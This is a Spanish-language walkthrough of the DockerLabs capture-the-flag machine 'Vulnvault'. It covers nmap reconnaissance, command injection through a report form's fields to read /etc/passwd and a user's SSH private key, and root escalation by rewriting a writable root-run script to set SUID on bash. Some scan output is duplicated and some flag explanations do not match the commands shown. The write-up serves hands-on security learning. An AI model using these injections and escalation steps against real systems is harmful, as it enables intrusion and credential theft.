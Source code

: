 #MAQUINA #DOCKERLABS #FACIL
#RCE
<hr>
# RECONOCIMIENTO

Vamos a resolver **Vulnvault** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:20 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.000020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:20 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.000020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 11:21 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /old/: Potentially interesting folder
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Directorio **old** interesante.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que hay un directorio **old**. 
Al meternos vemos que hay dos inputs que al rellenarlos nos generan un reporte.

# EXPLOTACION

Intentamos colar un comando de la siguiente manera:
Nombre ->**; cat /etc/passwd**
Fecha ->**; cat /etc/passwd**

Efectivamente, le podemos colar comandos (usuario -> **samara**, lo sacamos del /etc/passwd), así que vemos si tiene una clave privada de ssh en su directorio personal (/home/samara/.ssh/id_rsa):

Nombre ->**; cat /home/samara/.ssh/id_rsa**
Fecha ->**; cat /home/samara/.ssh/id_rsa**

La tiene, ahora podemos acceder con su clave privada:

   ```bash

ssh samara@172.17.0.2 -i id_rsa                       
The authenticity of host '172.17.0.2 (172.17.0.2)' cant be established.
ED25519 key fingerprint is SHA256:50SBUCdnSFCj03op6yJ3vYTdgMcXC07aE2LSeOkKaO8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.11.2-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Aug 20 19:54:15 2024 from 172.17.0.1
samara@787d762d2a20:~$

```
# ESCALADA PRIVILEGIOS

Vemos que procesos hay activos con **ps -ef**:
   ```bash
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  2 11:19 ?        00:00:25 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
root          15       1  0 11:19 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          33       1  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data      38      33  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data      39      33  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data      40      33  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data      41      33  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data      42      33  0 11:19 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  290811      33  0 11:22 ?        00:00:00 /usr/sbin/apache2 -k start
root     1344356      15  0 11:34 ?        00:00:00 sshd: samara [priv]
samara   1345499 1344356  0 11:34 ?        00:00:00 sshd: samara@pts/0
samara   1345510 1345499  0 11:34 pts/0    00:00:00 -bash
samara   1716889 1345510  0 11:37 pts/0    00:00:00 ps -ef


```

Vemos **script en /usr/local/bin** que lo ejecuta root en bucle, tenemos poder de escritura, lo modificamos:
   ```bash
samara@787d762d2a20:/usr/local/bin$ cat echo.sh 
#!/bin/bash

echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
samara@787d762d2a20:/usr/local/bin$ nano echo.sh 
samara@787d762d2a20:/usr/local/bin$ cat echo.sh 
#!/bin/bash

chmod +s /bin/bash
samara@787d762d2a20:/usr/local/bin$ bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**